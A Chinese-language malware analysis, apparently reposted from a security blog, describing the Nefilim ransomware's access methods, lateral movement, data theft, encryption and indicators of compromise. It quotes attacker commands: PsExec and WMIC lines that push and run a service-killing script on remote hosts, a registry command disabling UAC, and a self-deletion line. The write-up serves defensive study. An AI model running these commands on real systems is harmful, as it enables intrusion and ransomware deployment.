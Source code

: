 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0yeEvE-VrixIhgBRTjimxQ)

概述  



---------

Nefilim 勒索软件出现于 2020 年 3 月，与另一个勒索软件家族 Nemty 共享一部分代码。Nefilim 利用 Citrix 网关设备中的漏洞 (如 CVE-2019-11634 和 CVE-2019-19781) 进行攻击，成功入侵后会窃取目标网络中的数据并加密，从而要求公司支付赎金，否则将泄漏窃取的数据。

技术细节  



-----------

**初始访问**

Nefilim 勒索软件会暴力破解 RDP 远程桌面协议进行分发，并利用 Citrix 网关设备中的已知漏洞实现初始访问。在目标系统中建立初始立足点后，攻击者便会释放 Nefilim 勒索软件并执行。

**横向移动**

攻击者使用 PsExec 等工具在受害者的网络中远程执行命令，并使用 Mimikatz、LaZagne 和 NetPass 等工具收集凭证。攻击者会利用窃取的凭证在受害网络中进行横向移动，试图发现更多敏感数据，执行的某些命令如下所示：

```
Start copy kill.bat \destinationip\c$\windows\temp
```

```
Start psexec.exe \destinationip -u domain\username\ -p password -d -h -r mstdc -s -accepteula -nobanner c:\windows\teamp\Kill.bat
```

```
Start psexec.exe -accepteula \destinationip -u domain\username\ -p password reg add HKLM\software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /F
```

```
WMIC /node: \destinationip /username:”domain\username” /password:”password” process CALL CREATE “cmd.exe /c copy \sourceip\c$\windows\temp C:\WINDOWS\TEMP\kill.bat"
```

```
WMIC /node: \destinationip /username:”domain\username” /password:”password” process CALL CREATE “cmd.exe /c C:\WINDOWS\TEMP\kill.bat"
```

如下图所示，攻击者使用使用 bat 脚本停止服务和杀死进程：

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZwRMgGLn7pj9RYibRSrDFIQsdmPwU6XNSMceE3tTV8MnsGMjh7QYI7TXdIKhmcic1icFC0myeZ9kLIA/640?wx_fmt=png)

图 1. 停止的服务  

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZwRMgGLn7pj9RYibRSrDFIQaj7eEuh5HNem5devcRysMlbbJlRhJPSYuRHuA7ySFe2CaBiaUbwIOiaA/640?wx_fmt=png)

图 2. 终止的进程  

**数据窃取**

Nefilim 会将服务器 / 共享目录中的数据复制本地目录下，并使用释放的 7zip 二进制文件进行压缩。它还会释放 MegaSync 并安装，以窃取数据。

**勒索软件执行**

Nefilim 恶意软件使用 AES-128 加密锁定文件，赎金是通过电子邮件支付的。加密后，它将释放名为 “NEFILIM-DECRYPT.txt” 的勒索说明文件。加密后文件的扩展名会被修改为. NEFILIM，且文件末尾被附加 AES 加密密钥。之后，将使用勒索软件可执行文件中的嵌入的 RSA-2048 公钥对其进行加密。除了加密的 AES 密钥外，勒索软件在所有加密文件中添加 “NEFILIM”字符串作为标记。

该勒索软件还调用 IsDebuggerPresent 函数进行反调试，该函数会检查用户模式调试器是否正在调试该进程。它还利用 GetTickCount/QueryPerformanceCounter API 获取系统重启时间与当前时间的相差毫秒数。

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZwRMgGLn7pj9RYibRSrDFIQBquteXcjicQjKLUAkeEhu0x2uh6L4CvyTfraRqdpl5ziaSYdhNFfHnag/640?wx_fmt=png)

图 3. 反调试 API  

成功感染后，Nefilim 会调用 ShellExecute API 以将自身从目标系统中删除。

```
"C:\Windows\System32\cmd.exe" /c timeout /t 3 /nobreak && del "C:\Users\admin\Download{ransomware_filename}.exe" /s /f /q
```

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakZwRMgGLn7pj9RYibRSrDFIQdTFodbibibSWQrXQZM2d6MC756e0a6uibnXTx2RYNlXeWfACIb6WepnnA/640?wx_fmt=png)

图 4. 删除自身

IoC  



----------

```
文件哈希：





8be1c54a1a4d07c84b7454e789a26f04a30ca09933b41475423167e232abea2b
b8066b7ec376bc5928d78693d236dbf47414571df05f818a43fb5f52136e8f2e
3080b45bab3f804a297ec6d8f407ae762782fa092164f8ed4e106b1ee7e24953
7de8ca88e240fb905fc2e8fd5db6c5af82d8e21556f0ae36d055f623128c3377
b227fa0485e34511627a8a4a7d3f1abb6231517be62d022916273b7a51b80a17
3bac058dbea51f52ce154fed0325fd835f35c1cd521462ce048b41c9b099e1e5
353ee5805bc5c7a98fb5d522b15743055484dc47144535628d102a4098532cd5
5ab834f599c6ad35fcd0a168d93c52c399c6de7d1c20f33e25cb1fdb25aec9c6
52e25bdd600695cfed0d4ee3aca4f121bfebf0de889593e6ba06282845cf39ea
35a0bced28fd345f3ebfb37b6f9a20cc3ab36ab168e079498f3adb25b41e156f
7a73032ece59af3316c4a64490344ee111e4cb06aaf00b4a96c10adfdd655599
08c7dfde13ade4b13350ae290616d7c2f4a87cbeac9a3886e90a175ee40fb641
D4492a9eb36f87a9b3156b59052ebaf10e264d5d1ce4c015a6b0d205614e58e3
B8066b7ec376bc5928d78693d236dbf47414571df05f818a43fb5f52136e8f2e
fcc2921020690a58c60eba35df885e575669e9803212f7791d7e1956f9bf8020
```

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**